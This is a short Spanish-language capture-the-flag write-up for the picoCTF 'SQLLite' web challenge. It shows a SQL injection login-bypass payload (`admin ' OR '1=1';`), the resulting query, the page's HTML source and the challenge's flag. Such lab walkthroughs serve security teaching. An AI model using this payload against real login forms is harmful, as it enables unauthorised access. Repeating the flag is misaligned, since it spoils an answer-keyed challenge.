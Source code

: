 # SQLLite
Can you login to this website?

Hints:
- `admin` is the user you want to login as.

## Solución
Primero nos conectamos a la base de datos, depués nod dirigiremos a la página que se nos esta indicando, dentro de ella nos pide que agreguemos un username y un password, justo aquí podemos hacer una inyección en el campo username

```
username: admin ' OR '1=1';
password: admin
SQL query: SELECT * FROM users WHERE name='admin ' OR '1=1';' AND password='admin'
```

logrando logearnos, pero nos indica otra cosa

```
# Logged in! But can you see the flag, it is in plainsight.
```

Entonces es aquí donde **vemos el código fuente de la página** y encontraremos la bandera

``` html
<pre>username: admin &#039; OR &#039;1=1&#039;;
password: admin
SQL query: SELECT * FROM users WHERE name=&#039;admin &#039; OR &#039;1=1&#039;;&#039; AND password=&#039;admin&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```

Bandera:
picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}